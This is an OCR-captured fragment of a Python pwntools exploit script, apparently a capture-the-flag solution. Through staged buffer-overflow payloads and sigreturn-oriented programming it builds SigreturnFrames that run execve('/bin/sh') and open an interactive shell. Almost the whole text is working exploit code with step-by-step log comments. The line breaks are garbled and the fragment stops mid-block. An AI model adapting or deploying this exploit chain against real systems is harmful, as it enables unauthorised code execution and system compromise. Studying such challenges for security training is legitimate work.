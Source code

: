 ```  
log.info('5# we execute syscall sigret() which places our SigreturnFrame into
all registers')

 #print(rl())  
 payload2 = b'ABCDEFGHIJKLM\x00'  
 sl(payload2)

 input("Press Enter to continue...")  
log.info('6# our sigret() setup a read() with rax=0 from rdi=0 stdin into
rsi=0x40203b , rdx=0x320 and executes it as it sets the rip to the next
syscall() at rip=0x40100e')  
log.info('7# our 3rd input from the 2nd ret; to read(0,0x40203b,0x320) that
sets next ret; to a read() again')  
log.info('8# we read in our input and setup 3rd and 4th ret points both to the
read() than stores /bin/sh to 0x402353')

  
 sleep(x)  
 payload3 = p64(0x401006) + p64(0x401006) + b'A'*776 +b'/bin/sh\x00'  
 sl(payload3)

 #Stage 2 execve(/bin/sh,0,0)

log.info('9# we create the next SigreturnFrame')

 frame2 = SigreturnFrame(kernel='amd64')  
 frame2.rip = 0x40100e           #rip = addr of syscall gadget  
 frame2.rdi = 0x402353           #rdi = addr of "/bin/sh"  
 frame2.rsi = 0x0                #rsi = arg1  
 frame2.rdx = 0x0                #rdx = arg2  
 frame2.rax = 0x3b               #rax = execve

 input("Press Enter to continue...")  
log.info('10# we ret; to our 1st 0x401006 read(0,0x40203b,0x320) that stores a
read and a syscall gadget and the 2nd SigreturnFrame on the Sack')

 sleep(x)  
 payload = b'A'*8                #fill the buffer  
 payload += b'B'*8               #fill the rbp  
 payload += p64(0x401006)        #5th ret point to read() again to setup the
rax to 0xf  
 payload += p64(0x40100e)        #6th ret point to sigret() that setup the
registers and sets rip to a syscall than executes execve(/bin/sh,0,0)  
 payload += bytes(frame2)  
 sl(payload)

  
 input("Press Enter to continue...")  
log.info('11# we ret; to the 2nd 0x401006 and again to a read() that sets our
rax=0xf')

 sleep(x)  
 payload = b'ABCDEFGHIJKLMN'       #14 bytes + 1 from the \n at the end =0xf  
 sl(payload)

log.info('now the 2nd SigreturnFrame gets loaded into registers that setup a
syscall for exeve(0x402353,0,0) and executes it')  
log.info('0x402353 contains our /bin/sh string')

log.info('GG we get a shell :)')

 inter()  
if __name__ == '__main__':  
```